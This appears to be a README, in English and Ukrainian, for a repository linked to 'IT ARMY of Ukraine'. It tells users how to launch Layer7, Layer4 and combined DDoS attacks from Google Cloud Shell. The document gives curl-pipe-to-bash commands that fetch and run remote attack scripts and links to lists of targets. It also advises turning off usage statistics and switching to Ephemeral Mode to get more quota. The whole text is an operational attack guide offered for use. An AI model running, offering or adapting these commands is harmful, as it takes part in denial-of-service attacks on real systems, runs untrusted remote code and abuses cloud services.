 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
#### по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
#### Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
#
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
##### Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4.lst

#
IT ARMY of Ukraine
